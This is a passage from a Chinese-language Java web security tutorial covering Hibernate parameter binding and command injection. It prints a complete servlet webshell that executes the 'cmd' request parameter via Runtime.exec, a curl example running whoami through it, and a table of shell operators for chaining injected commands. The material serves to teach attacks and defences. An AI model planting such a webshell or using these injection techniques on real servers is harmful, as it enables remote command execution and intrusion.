   ```java
  List<String> names = Arrays.asList(parameter1,parameter2);
  Query<User> query = session.createQuery("FROM USER WHERE NAME = (:names)",User.class);
  query.setParameter("name",names);
  ```
+ 类实例
  ```java
  User user1;
  user1.setName(parameter);
  Query<User> query = session.createQuery("FROM USER WHERE NAME =:name",User.class);
  query.setProperties(user1);
  ```
## §2.2 命令注入
`Runtime`类可以用于调用系统命令，下面是一个典型的`WebShell`：
```java
class WebShell{  
    protected void doGet(HttpServletRequest request, HttpServletResponse response) 
    throws IOException {  
        String cmd = request.getParameter("cmd");
        Process process = Runtime.getRuntime().exec(cmd);
        InputStream in = process.getInputStream();
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        byte[] b = new byte[1024];
        int i;
        while((i=in.read(b))!=-1){
            byteArrayOutputStream.write(b,0,i);
        }
        PrintWriter out = response.getWriter();
        out.println(byteArrayOutputStream);
    }  
}
```

访问`localhost:8080/WebApp_war_exploded/WebShell?cmd=whoami`：

```shell
C:\> curl -v localhost:8080/WebApp_war_exploded/WebShell?cmd=whoami
	desktop-d9m390b\Administrator
```

> [注意](https://stackoverflow.com/questions/4031390/executing-cmd-exe-commands-from-java)：Linux的`Runtime`调用的Shell**只能执行文件**。
>
> 在Windows中，`dir`、`cd`等命令是内置于Shell的，而不是统一放在`C:\Windows\System32`中的`.exe`可执行文件，因此执行失败。之所以`whoami`可以执行，是因为系统目录真的有个叫做`whoami.exe`的程序；而尝试执行`dir`时，则会遇到`500 Interal Server Error`：`java.io.IOException: Cannot run program "dir": CreateProcess error=2, 系统找不到指定的文件`。
>
> 在Linux中，万物皆文件，Shell执行的所有命令都是`/bin`内的可执行二进制文件，因此Linux不会出现这种问题。
>
> 对于这种问题，我们可以**用Java创建的Shell再创建一个Shell**，例如`?cmd=cmd.exe /c dir`

对于常见的`pingShell`，我们常常需要将两条命令拼接到一起。以下是各大操作系统常用的连接符：

|   OS    |     Shell      | 同时执行多条命令 | 顺序实行多条命令 | 顺序执行多条命令（仅当前命令执行成功时） | 顺序执行多条命令（仅当前命令执行失败时） | Pipe Operator | Group/Nest Multiple Commands | Seperate Parameter | Run in Background |
| :-----: | :------------: | :--------------: | :--------------: | :--------------------------------------: | :--------------------------------------: | :-----------: | :--------------------------: | :----------------: | :---------------: |
| Windows | Command Prompt |       `&`        |                  |                   `&&`                   |                   `||`                   |      `|`      |            `( )`             |      `;`或`,`      |                   |
| Windows |   Powershell   |       `&`        |       `;`        |                   `&&`                   |                   `||`                   |      `|`      |            `( )`             |                    |                   |
|  Linux  |      bash      |       `&`        |       `;`        |                   `&&`                   |                   `||`                   |      `|`      |            `( )`             |                    |     ` ... &`      |
